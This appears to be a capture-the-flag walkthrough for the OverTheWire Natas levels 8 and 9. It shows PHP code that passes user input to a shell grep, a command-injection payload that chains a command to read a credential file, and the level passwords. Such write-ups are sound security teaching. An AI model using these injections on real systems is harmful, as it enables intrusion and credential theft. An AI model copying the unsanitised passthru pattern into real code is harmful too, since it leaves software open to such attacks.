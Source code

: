 Output: https://www.tutorialspoint.com/execute_php_online.php

$php main.php

<html>
<head>
<title>Online PHP Script Execution</title>
</head>
<body>
oubWYf2kBq</body>
</html>

Secret: oubWYf2kBq

Output:
Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

natas9
W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
---

Natas Level 8 → Level 9

Username: natas9
URL:      http://natas9.natas.labs.overthewire.org
W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
---
Asks for finding words containing:" " and Search

View Source Code:

```
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>
```
http://natas9.natas.labs.overthewire.org/?needle=needle%3B+cat+%2Fetc%2Fnatas_webpass%2Fnatas9%3B&submit=Search

If you type needle, it performs the passthru. So we can inject code into the search box, by typing the following:

`needle; cat /etc/natas_webpass/natas10; `

Output:

nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
